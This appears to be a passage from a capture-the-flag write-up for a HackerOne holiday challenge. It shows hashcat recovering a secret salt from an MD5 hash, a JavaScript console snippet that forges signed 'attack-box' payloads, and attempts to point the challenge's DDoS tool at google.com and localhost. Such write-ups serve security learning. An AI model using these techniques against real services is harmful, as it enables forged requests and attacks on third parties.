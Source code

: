 Apparently, yes, yes we can.
Success was achieved first try by formatting a text file named `hash2.txt` like so:
``` 
5f2940d65ca4140cc18d0878bc398955:203.0.113.33
```
(curse you, `hash.txt`)

Then, we run hashcat like so:
```powershell
.\hashcat.exe -m 10 -a 0 .\hash2.txt ..\h1-xmas-ctf\rockyou.txt
```

The `hash2.txt` format along with options `-m 10 -a 0` tells hashcat to try to turn the ip `203.0.113.33` into the hash `5f2940d65ca4140cc18d0878bc398955` by using a line from `rockyou.txt` and stuffing them together like so: `md5(LINEFROMROCKYOU . '203.0.113.33')`.

We are quickly informed that the salt (pepper, actually) is `mrgrinch463`. Nice!

Using this, let's try our hand at creating a custom payload and see if we can change what the DDoS script attacks.

First, let's insert an IFRAME into the `attack-box` and give it the id `frame` - this way we can easily monitor what goes on in real time. I did this by opening the inspector and editing the first DIV inside the DIV with class `container`, though anywhere on the webpage should do.

{F1138540}

Next, I entered this little snippet into the console:

```javascript
// copy and paste md5 from here http://www.myersdaily.org/joseph/javascript/md5.js into the console
let lo = (load) => {
    load = decodeURIComponent(load);
    console.log("Running", load);
    const hash = md5(`mrgrinch463${load}`);
    const tar = `/attack-box/launch?payload=${btoa(`{"target":"${load}","hash":"${hash}"}`)}`;
    document.getElementById("frame").src = tar;
}
```

This let's us easily construct a new payload and load it into the IFRAME. 

Let's try it with google as the target:

```javascript
lo("google.com");
```

{F1138542}

Ah yes, we can create custom payloads with any target we'd like! (sorry google). Let's shut down `localhost`!

```javascript
lo("localhost");
```

{F1138543}

...
Same thing for `127.0.0.1`, `hackyholidays.h1ctf.com`, and so on. So there's some kind of protection for local targets in place... Hmm.
